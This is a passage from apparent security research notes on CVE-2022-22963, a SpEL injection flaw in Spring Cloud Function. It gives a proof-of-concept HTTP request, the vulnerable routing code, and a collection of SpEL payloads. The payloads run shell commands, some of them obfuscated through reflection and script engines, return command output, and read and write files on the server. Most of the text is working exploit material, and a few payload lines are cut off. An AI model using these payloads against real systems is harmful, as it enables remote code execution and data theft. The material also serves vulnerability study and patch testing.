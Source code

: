 ```
}
```
#### CVE-2022-22963 SpEL
Affected Version: <= 3.1.6, 3.2.2

POC: 
```
POST /functionRouter HTTP/1.1
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("open -a Calculator")

aaa
```
Factor: 
```
RoutingFunction
private Object route(Object input, boolean originalInputIsPublisher) {
    Function function;
    if (input instanceof Message) {
        if (StringUtils.hasText((String)message.getHeaders().get("spring.cloud.function.definition"))) {...}
        else if (StringUtils.hasText((String)message.getHeaders().get("spring.cloud.function.routing-expression"))) {
            function = this.functionFromExpression((String)message.getHeaders().get("spring.cloud.function.routing-expression"), message);
            ...
        }...
}

private final StandardEvaluationContext evalContext = new StandardEvaluationContext();

private Function functionFromExpression(String routingExpression, Object input) {
    Expression expression = this.spelParser.parseExpression(routingExpression);
    String functionName = (String)expression.getValue(this.evalContext, input, String.class);
    ...
}
```
SpEL POC:  
```
// Command Execution
T(Runtime).getRuntime().exec(\"open -a Calculator\")
new java.lang.ProcessBuilder({\"/bin/sh\",\"-c\",\"open -a Calculator\"}).start()
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")
T(String).getClass().forName("java.lang.Runtime").getMethod("exec",T(String[])).invoke(T(String).getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(T(String).getClass().forName("java.lang.Runtime")),new String[]{"/bin/sh","-c","open -a Calculator"})
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='/bin/sh';s[1]='-c';s[2]='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);")
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("s=[3];s[0]='/bin/sh';s[1]='-c';s[2]='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);"),)
nstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a...")),)

// Command Execution + Response
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("/bin/sh", "-c", "whoami").start().getInputStream(), "gbk")).readLine()
new java.util.Scanner(new java.lang.ProcessBuilder("/bin/sh", "-c", "ls", ".\\").start().getInputStream(), "GBK").useDelimiter("asdfasdf").next()

// Read or Write File
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/Users/axisx/Downloads/application.properties"))))
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/1.txt")), 'hello'.getBytes(), T(java.nio.file.StandardOpenOption).WRITE)
```